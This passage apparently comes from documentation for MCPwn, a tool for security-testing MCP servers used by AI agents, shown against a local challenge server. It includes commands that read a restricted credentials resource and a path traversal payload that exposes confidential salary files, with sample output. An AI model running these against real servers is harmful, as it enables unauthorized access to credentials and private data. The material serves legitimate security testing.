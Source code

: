 MCPwn can directly test resource access to identify authorization bypasses:

```bash
python3 MCPwn.py localhost:9003 internal://credentials
```

In vulnerable implementations, this might return sensitive information:

```bash
┌─ RESOURCE CONTENT ────────────────────────────────────────────────────────────┐
│ [1] Text Content                                                           │
│     Type: text/plain                                                         │
│     Content:                                                                 │
│     Private Files (RESTRICTED):                                             │
│     employee_salaries.txt                                                   │
│     system_credentials.txt                                                  │
│     acquisition_plans.txt                                                   │
└──────────────────────────────────────────────────────────────────────────────┘
```

### Path Traversal Testing

MCPwn can test tools for path traversal vulnerabilities:

```bash
python3 MCPwn.py localhost:9003 read_file '{"filename": "../private/employee_salaries.txt"}'
```

Successful exploitation might reveal:

```bash
┌─ TOOL RESPONSE ───────────────────────────────────────────────────────────────┐
│ [1] Text Output                                                             │
├──────────────────────────────────────────────────────────────────────────────┤
│ CONFIDENTIAL: Employee Salary Information                                   │
│ CEO: $1,200,000/year                                                        │
│ CTO: $950,000/year                                                          │
│ Senior Engineers: $180,000-$250,000/year                                    │
└──────────────────────────────────────────────────────────────────────────────┘
```

These examples demonstrate how MCPwn can quickly identify critical vulnerabilities like access control bypasses and path traversal flaws.

## LLM-Assisted Security Analysis

MCPwn can leverage AI for enhanced vulnerability analysis:

```bash
python3 MCPwn.py --audit --audit-llm localhost:9003
```

```bash
python3 MCPwn.py localhost:9003 --audit --audit-llm

=== MCP Quick Audit: http://localhost:9003 ===
Server: Challenge 3 - Excessive Permission Scope | Version: 1.13.1
Tools: 2 | Resources: 2 | Prompts: 0

Timings (ms): init=22 tools=4 resources=6 prompts=2

-- Tools (top risks) --

-- Error Probing Findings --
* read_file: Accepted invalid input without error
* read_file: Accepted invalid input without error
* search_files: Accepted invalid input without error
* search_files: Accepted invalid input without error


```